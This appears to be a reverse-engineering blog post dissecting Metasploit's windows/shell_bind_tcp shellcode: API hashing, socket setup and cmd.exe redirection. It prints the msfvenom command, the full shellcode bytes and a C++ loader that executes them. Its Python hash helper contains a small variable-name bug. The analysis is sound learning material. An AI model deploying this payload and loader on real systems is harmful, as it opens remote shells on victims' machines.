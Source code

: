 # Reversing MSFVenom ShellCodes

For those of you that don't know what Msfvenom is:

> Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

Msfvenom is part of the popular Metasploit Framework. For a long time I wanted to dive deep into the different payload it produces and see how it works under the hood.

## Creating the payload

Payload could be created by using the msfvenom command, make sure Metasploit framework is installed.

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`

Output:

```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

## Writing the wrapper

All we need to do is to allocate memory for the shellcode and transfer the execution to it's starting point.

```cpp
#include <Windows.h>

int main() {
	unsigned char shellcode[] = "...";

	PVOID shellcode_exec = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	
	if (shellcode_exec) {
		RtlCopyMemory(shellcode_exec, shellcode, sizeof(shellcode));
		DWORD dwThreadId;
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &dwThreadId);
		if (hThread != 0) {
			WaitForSingleObject(hThread, INFINITE);
		}
	}

	return 0;
}
```

By creating an application which will run the shellcode we could attach a debugger to the shellcode in case we need to check the shellcode dynamically.

## Assembly analysis

### Find required functions

Loading the shellcode into IDA we can see that it first calls to another function:

![](images/ida_shellcode.png)

Peeking inside we see the following:

![](images/first_function.png)

We can understand that the main function gets 2 arguments, an unknown hex value and a string pointer. We'll keep that in mind and go back to the main function.

For some of you the next instructions will be familiar, the shellcode is parsing the export table looking for specific exported function. 

First, it creates a hash to the module name:

![](images/module_hash.png)

The hashing algorithm is pretty basic: 
1. Transform module name to uppercase
2. ROR13 to each character
3. Add character hex to the result

We can write simple python script that does exactly the same:

```python
def ror(dword, bits):
    return (dword >> bits | dword << (32 - bits)) & 0xFFFFFFFF

def unicode(string, uppercase=True):
    result = ''
    if uppercase:
        string = string.upper()
    for c in string:
        result += c + '\x00'
    return result

def cal_hash(name, bits=13):
    hash = 0
    
    for c in unicode(module + '\x00'):
        hash = ror(hash, bits)
        hash += ord(c)

    print(hash)
```

Moving on we see that the shellcode uses the same ROR13 hashing algorithm for the function names:

![](images/function_hash.png)

We can divide the above image into 3 sections:

1. Getting the functions names - this could be done by parsing the PE headers of the DLL pointer by `_LDR_DATA_TABLE_ENTRY->DllBase`.
2. Hash the function name - using ROR13 without uppercasing
3. Compare the result with what we are looking for

At this point we figures what the unknown value we pushed earlier to the stack means. The value is a `hash(module_name) + hash(function_name)`. If we want to reveal what function we are searching for we have 2 options:

1. Create a python script that calculates the hashes for known functions and comparing the results with the hashes in our executable.
2. Using the debugger - place a breakpoint right after the loop and continue execution:

![](images/find_hash.png)

We can see that `esi` holds the value `LoadLibraryExA`. BUT! that's not the function we looked for, if you'll notice, `esi` moved to the next function before the comparison so we need the function exported before `LoadLibraryExA` which is, `LoadLibraryA`.

*NOTE: You can repeat the same process and find the rest functions.*

Ok, now we want to know what the shellcode does with the found function? 

![](images/call_found_function.png)

First, the shellcode finds the address of the function using a pointer to the export table saved earlier. 

Next, the stack need to be fixed before calling the found function. Recall that before jumping back the the main function we pushed the hash and a string to the stack, we need to pop them out and fix more changes that we've done during the parsing. One of the changes is to fix the return address, we need that the function will return to the previous function.

Now, the shellcode can call the function.

### Creating socket

Going back to the first function call, we can understand what's going on much easier than before:

![](images/create_socket.png)

All that this code section does is to create a communication socket to the desired `LPORT` that we'll use later.

The socket creation flow in pseudo-C:

```c
LoadLibraryA("ws2_32");
WSAStartup(0x0190, &WSAData);
WSASocketA(AF_INET, SOCK_STREAM, 0, 0, 0, 0);
bind(socket, &sockaddr_in, 0x10);
listen(socket, 0);
new_socket = accept(socket, 0, 0);
closesocket(socket); // close listening socket
```

### Shell setup

After creating a socket the shellcode create a shell to the infected system using the following code:

![](images/new_process.png)

It creates new cmd.exe process and sets the input, output and error streams to be the socket created earlier. That way, the attacker could run commands from the other end of the socket.

At the end, the shellcode waits until the shell closes and exit the program:

![](images/ending.png)

It chooses the appropriate exit function by querying the system's version.

## Analysis of other shellcodes

Now that we have good understanding about how `windows/shell_bind_tcp` works under the hood it will be easier for us to investigate other types of shellcodes, for example `windows/shell_reverse_tcp`. The main difference between the two is the way that the socket being created:

![](images/reverse_tcp_socket.png)

# Conclusion

We've learned about 2 different shellcode produced by Metasploit framework, `windows/shell_bind_tcp` and `windows/shell_reverse_tcp`. We started by understanding the functions obfuscation and execution using python/x64dbg, then, we investigated how the socket is being created and lastly how we get a command shell on the infected system.

How you found this blog post informative, see you in the next time :)